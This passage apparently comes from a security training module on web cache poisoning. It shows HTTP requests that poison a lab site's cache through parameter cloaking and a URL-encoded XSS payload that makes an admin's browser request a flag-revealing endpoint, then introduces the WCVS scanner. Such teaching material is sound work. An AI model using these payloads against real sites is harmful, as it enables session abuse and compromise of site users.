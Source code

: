 ```http
GET /?language=en HTTP/1.1
Host: cloak.wcp.htb

```

The response should now be a cache hit and contain the German text. Thus, we successfully poisoned the cache.

**Note:** To poison the cache with parameter cloaking we need to "hide" the cloaked parameter from the cache key by appending it to an unkeyed parameter.

Now let's build an XSS exploit that forces the admin user to reveal the flag for us, just like we did before. Since Bottle treats the semicolon as a separation character, we need to URL-encode all occurrences of the semicolon in our payload:

```http
GET /?language=de&a=b;ref=%22%3E%3Cscript%3Evar%20xhr%20=%20new%20XMLHttpRequest()%3bxhr.open(%27GET%27,%20%27/admin?reveal_flag=1%27,%20true)%3bxhr.withCredentials%20=%20true%3bxhr.send()%3b%3C/script%3E HTTP/1.1
Host: cloak.wcp.htb

```

After sending this request and confirming our payload has been cached for the URL `/?language=de`, the admin should trigger our exploit and the flag should be revealed after a few seconds.


# Tools & Prevention

After discussing different ways to identify and exploit web cache poisoning vulnerabilities, let's have a look at tools we can use to help us in this process. Afterward, we will discuss ways we can protect ourselves from web cache poisoning vulnerabilities.

* * *

## Tools of the Trade

One of the most important tasks when searching for web cache poisoning vulnerabilities is identifying which parameters of a request are keyed and which are unkeyed. We can use the [Web-Cache-Vulnerability-Scanner (WCVS)](https://github.com/Hackmanit/Web-Cache-Vulnerability-Scanner) to help us identify web cache poisoning vulnerabilities. The tool can be downloaded from the GitHub release page. Afterward, we need to unpack it and run the binary:

```shell
tar xzf web-cache-vulnerability-scanner_1.1.0_linux_amd64.tar.gz
./wcvs -h
Published by Hackmanit under http://www.apache.org/licenses/LICENSE-2.0
Author: Maximilian Hildebrand
Repository: https://github.com/Hackmanit/Web-Cache-Vulnerability-Scanner
Blog Post: https://hackmanit.de/en/blog-en/145-web-cache-vulnerability-scanner-wcvs-free-customizable-easy-to-use
Version: 1.1.0

Usage: Web-Cache-Vulnerability-Scanner(.exe) [options]
<SNIP>

```
